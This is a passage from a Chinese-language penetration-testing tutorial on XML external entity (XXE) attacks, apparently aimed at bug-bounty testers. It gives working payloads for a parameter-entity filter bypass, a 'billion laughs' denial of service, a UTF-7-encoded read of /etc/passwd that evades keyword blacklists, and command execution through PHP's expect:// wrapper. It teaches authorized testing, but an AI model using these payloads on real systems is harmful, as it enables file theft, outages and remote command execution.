 过滤掉“与”符号 ( &  
) 通常看起来合乎逻辑。然而，我们可以通过利用参数实体轻松绕过这个问题。参数实体用百分号 ( <!ENTITY % name "value">  
) 定义，引用语法如下：%name;  
  
并且它们只能在 DTD 本身中引用，下面是使用参数实体加载外部资源的 XXE 有效负载的示例：  
```
<!DOCTYPE root [  <!ENTITY % xxe SYSTEM "http://example.com/"> %xxe;]><root></root>
```  
  
通过这种方法，我们可以使用参数实体来绕过阻止常规外部实体的保护和过滤器。  
### 通过资源耗尽来利用 XXE（“十亿笑声”攻击）  
  
正如我们之前提到的，XML 解析器中的安全配置错误可能会开启新的攻击向量，并允许我们利用 XXE 漏洞。在某些情况下，当实体扩展限制未设置时，我们实际上可以利用这一点来指数级扩展外部实体。  
  
指数实体扩展（更广为人知的名称是“十亿笑声”攻击）利用递归实体声明，导致高内存消耗甚至系统崩溃：  
```
<!DOCTYPE root [  <!ENTITY e "e">  <!ENTITY e1 "&e;&e;&e;&e;&e;&e;&e;&e;&e;&e;">  <!ENTITY e2 "&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;">  <!ENTITY e3 "&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;">  <!-- ... -->]><root>&e3;</root>
```  
  
这种攻击特别危险，因为有效载荷本身相当小，并且扩展发生在解析期间，但可能完全压垮服务器资源。  
  
**提示！测试拒绝服务 (DoS) 攻击时，请务必遵守程序指南，并且仅在允许的情况下进行！**  
### 通过UTF-7编码利用XXE  
  
你可能已经注意到了，在我们所有的XXE载荷中，我们都只使用了UTF-8编码。正如我们之前所见，一些过滤规则主要包括删除恶意关键字和语法符号。  
  
但是，如果解析器配置为接受多种字符编码，我们实际上可以发送以 UTF-7 而不是 UTF-8 字符集编码的恶意有效载荷：  
```
<?xml version="1.0" encoding="UTF-7"?>+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-post+AF8-title+AD4-+ACY-xxe+ADs-+ADw-/post+AF8-title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-post+AF8-desc+AD4-xyz+ADw-/post+AF8-desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```  
  
这种方法可以帮助我们绕过一些输入验证限制，特别是基于黑名单关键字过滤的系统，以防止 XXE 注入攻击。  
  
**提示！请记住在有效负载中包含 XML 序言，并将编码设置为“UTF-7”！**  
### 将 XXE 升级为远程代码执行  
  
在某些情况下，我们不仅可以读取系统文件或访问内部网络，还可以进行其他操作。例如，当启用了 Expect PHP 模块时，我们实际上可以使用包装器来执行系统命令：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [  <!ENTITY exec SYSTEM "expect://whoami">]><data>    <post>        <post_title>whoami: &exec;</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  
这个特定的 PHP 模块允许开发人员通过 PTY 与进程进行交互。我们还可以使用其他几个包装器来升级我们最初的 XXE 漏洞：  
- PHP 过滤器包装器  
  
- PHP 档案包装器 (PHAR)  
  
- ZIP/JAR 包装器（用于读取档案中的文件）  
  
- 数据  
  